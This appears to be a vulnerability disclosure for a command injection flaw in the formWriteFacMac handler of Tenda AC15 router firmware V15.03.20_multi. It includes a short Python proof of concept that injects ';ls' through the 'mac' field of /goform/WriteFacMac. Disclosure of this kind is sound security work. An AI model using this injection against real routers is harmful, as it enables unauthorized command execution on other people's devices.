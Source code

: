 ## Overview

- Firmware download website: https://www.tendacn.com/us/download/detail-3851.html

## Affected version

AC15V1.0 V15.03.20_multi

## Vulnerability details

The Tenda AC15V1.0 V15.03.20_multi firmware, we discovered a command injection vulnerablility in `formWriteFacMac` function in the `v3` parameter and the `mac` varable is directly passed to a `doSystemCmd` function, causing an arbitrary command execution. The user-provided `mac` can trigger this security vulnerability.

![image-20240314181142582](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240314181142582.png)

## POC

```python
import requests
from pwn import*

ip = "192.168.84.101"
url = "http://" + ip + "/goform/WriteFacMac"
payload = ";ls"

data = {"mac": payload}
response = requests.post(url, data=data)
print(response.text)
```

![image-20240313164800839](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240313164800839.png)
